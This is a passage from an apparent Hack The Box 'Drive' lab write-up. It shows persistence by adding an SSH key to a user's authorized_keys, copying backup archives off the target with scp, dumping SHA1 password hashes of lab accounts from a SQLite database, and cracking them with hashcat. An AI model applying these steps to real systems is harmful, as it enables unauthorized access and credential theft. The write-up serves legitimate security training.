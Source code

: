 ```bash
scp martin@10.10.11.235:/var/backups/DoodleGrive.zip ./DoodleGrive.zip
# :(
ssh-keygen -f drive_htb
chmod 600 drive_htb
cat drive_htb.pub | tr -d '\n' | xclip -sel clip
```

> **Victime Machine:**

```bash
echo 'ssh-rsa AAAAB....h1Y//e11s= al3j0@parrot' > /home/martin/.ssh/authorized_keys
```

> **Attacker Machine:**

```bash
scp -i drive_htb -r martin@10.10.11.235:/var/backups/DoodleGrive.zip ./DoodleGrive.zip
#   :(
scp -i drive_htb -r martin@10.10.11.235:/var/www/backups/ .
#   :)
```

<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_028.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_029.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_030.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_031.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_032.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/drive_writeup/Drive_033.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I analyze the **.zip** file and `unzip` it, I find the project files besides one that corresponds to a **SQLite** database, I try to unzip the other database copy files but they are password protected (by the name they have, they must be performed as a scheduled task using a script) even using the credential of the user **martin**. If I list it with `sqlite3` and I find credentials, but they are hashed using **SHA1**, and if I use `hashcat` I can break one of them. 

```bash
file db.sqlite3
sqlite3 db.sqlite3
  .databases
  .tables
  select * from accounts_customuser;
  select password from accounts_customuser;             # :)
  select username,password from accounts_customuser;

echo 'jamesMason|sha1$W5I...36a3' | tr '|' ':' > hashes

# or:
echo '21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
```